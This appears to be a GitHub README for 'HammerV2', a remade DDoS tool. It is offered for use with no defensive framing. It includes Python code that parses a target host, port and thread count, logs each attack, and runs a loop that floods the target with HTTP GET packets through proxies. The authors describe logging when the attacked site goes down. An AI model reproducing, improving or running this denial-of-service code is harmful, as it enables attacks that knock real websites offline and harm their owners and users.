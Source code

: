 # HammerV2
- HammerV2 is some DDoS tool that has been remaked by iFanpS & NumeX
Me & NumeX remake this DDoS tool because the old version has been malfunction or cannot be use.
Me implement some code in here like new argument and on attack line.

# New Argument
I am adding new argument (-l | logs) logs method is used for know when are u ddosing.
I will add new argument soon like can automatically make logs when the site u ddos is Down.
```Python
def get_parameters():
    global host
    global port
    global thr
    global item
    times = time.ctime(time.time()).split()
    optp = OptionParser(add_help_option=False,epilog="Hammers")
    optp.add_option("-l","--logs",dest="logs",help="save attack logs -l yes")
    optp.add_option("-s","--server", dest="host",help="attack to server ip -s ip")
    optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80")
    optp.add_option("-t","--thread",type="int",dest="turbo",help="default 1000 thread")
    optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
    opts, args = optp.parse_args()
    if opts.help:
        usage()
    if opts.host is not None:
        host = opts.host
    else:
        usage()
    if opts.port is None:
        port = 80
    else:
        port = opts.port
    if opts.logs == 'yes':
        with open('logs_hammerv2.txt','a') as lg:
            lg.write(f"{host}:{port} is attacked on Day : {times[0]}, Month : {times[1]}:{times[2]}, Time : {times[3]}, Year : {times[4]}\n")
            lg.close()
    else:
        pass
    if opts.turbo is None:
        thr = 1000
    else:
        thr = opts.turbo
```

# Attack Method
The old hammer attack method u can find on github.
But here i remake the attack method to fast attack.
```Python
def down_it():
    try:
        data = """
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-us,en;q=0.5
        Accept-Encoding: gzip,deflate
        Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
        Connection: keep-alive"""
        while True:
            packet = str("GET / HTTP/1.1\nHost: "+host+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((prox[0],int(prox[1])))
            if s.send( packet):
                s.shutdown(1)
                print ("\033[92m","Time :","\033[0m","\033[92m",time.ctime(time.time()),"\033[0m \033[94m <--packet sent! hammering--> \033[0m")
            else:
                s.shutdown(1)
                print("\033[91mshut<->down\033[0m")
            time.sleep(.1)
    except socket.error as e:
        print("\033[91mSocket error\033[0m")
        time.sleep(2)
    except KeyboardInterrupt:
        exit()
```

# Credit
- NumexX & iFanpS